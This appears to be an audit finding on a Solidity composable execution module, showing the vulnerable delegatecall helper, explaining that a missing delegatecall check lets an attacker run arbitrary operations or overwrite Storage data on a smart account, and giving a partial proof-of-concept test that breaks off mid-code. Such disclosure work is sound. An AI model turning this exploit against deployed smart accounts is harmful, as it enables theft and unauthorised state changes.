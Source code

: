 ```solidity
    function _executeExecutionDelegatecall(ComposableExecution calldata execution, bytes memory composedCalldata) internal returns (bytes[] memory returnData) {
        returnData = new bytes[](1);
        returnData[0] = _execute(execution.to, execution.value, composedCalldata);
    }
```

```solidity

    function _execute(address target, uint256 value, bytes memory callData) internal virtual returns (bytes memory result) {
        /// @solidity memory-safe-assembly
        assembly {
            result := mload(0x40)
            if iszero(call(gas(), target, value, add(callData, 0x20), mload(callData), codesize(), 0x00)) {
                // Bubble up the revert if the call reverts.
                returndatacopy(result, 0x00, returndatasize())
                revert(result, returndatasize())
            }
            mstore(result, returndatasize()) // Store the length.
            let o := add(result, 0x20)
            returndatacopy(o, 0x00, returndatasize()) // Copy the returndata.
            mstore(0x40, add(o, returndatasize())) // Allocate the memory.
        } 
    }
```

However, this function does not ensure that it is called via a delegate call. An attacker can create an `executeFromExecutor` request to a target smart account that has the `ComposableExecutionModule` installed and call `executeComposableDelegateCall` on the module, allowing the attacker to perform unrestricted operations on the smart account.

Another scenario is where an attacker can manipulate `Storage` data by directly performing `writeStorage` inside the execution.

PoC : 

```solidity
    function test_change_storage_data() public {
        address alice = address(0xabcd);
        // via composability module
        _inputStaticCallOutputExecResult(address(mockAccountFallback), address(composabilityHandler));

        // previous slot b value
        bytes32 namespace = storageContract.getNamespace(address(mockAccountFallback), address(composabilityHandler));
        bytes32 SLOT_B_0 = keccak256(abi.encodePacked(SLOT_B, uint256(0)));
        bytes32 storedValueB = storageContract.readStorage(namespace, SLOT_B_0);
        console.logString("previous slot B value : ");
        console.logUint(uint256(storedValueB));
        // 1. call directly executeComposableDelegateCall, provide storage as target and construct write storage operation
        InputParam[] memory inputParamsCall = new InputParam[](1);
        inputParamsCall[0] = InputParam({
            fetcherType: InputParamFetcherType.RAW_BYTES,
            paramData: abi.encode(SLOT_B_0, 420, address(mockAccountFallback)),
            constraints: emptyConstraints
        });

        OutputParam[] memory outputParamsCall = new OutputParam[](0);

        ComposableExecution[] memory executions = new ComposableExecution[](1);
        executions[0] = ComposableExecution({
            to: address(storageContract),
```